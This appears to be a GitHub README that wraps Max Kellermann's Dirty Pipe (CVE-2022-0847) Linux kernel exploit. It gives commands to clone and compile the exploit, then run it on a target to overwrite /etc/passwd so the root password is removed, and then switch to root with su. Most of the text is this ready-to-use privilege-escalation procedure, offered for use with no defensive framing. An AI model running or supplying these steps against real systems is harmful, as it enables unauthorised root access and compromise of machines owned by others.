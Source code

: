 # Dirty Pipe - CVE-2022-0847

This is simply the code and instructions for how to use Max Kellermann's exploit for CVE-2022-0847 (known as Dirty Pipe).

Please go to https://dirtypipe.cm4all.com/ to read more about how to exploit works!

## How to use
1. Download and compile the exploit binary
```
git clone https://github.com/0xIronGoat/dirty-pipe.git
cd dirty-pipe
gcc exploit.c -o exploit
```

2. On the target, run the binary
```
./exploit /etc/passwd 1 "${$(cat /etc/passwd)/root:x/oot:}"
```

3. Switch to root
```
su
```
